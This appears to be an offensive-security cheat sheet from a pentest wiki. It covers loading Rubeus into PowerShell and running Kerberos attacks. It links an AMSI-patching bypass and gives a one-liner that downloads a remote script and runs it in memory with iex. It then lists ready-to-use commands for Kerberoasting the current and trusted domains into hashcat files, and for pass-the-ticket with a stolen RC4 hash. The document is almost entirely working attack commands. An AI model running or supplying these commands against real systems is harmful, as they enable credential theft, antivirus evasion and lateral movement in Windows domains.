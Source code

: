 # Reference
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.<domain>.txt /format:hashcat'
```

## Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```

## Reqest and pass the ticket to the current session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain> /ptt'
```
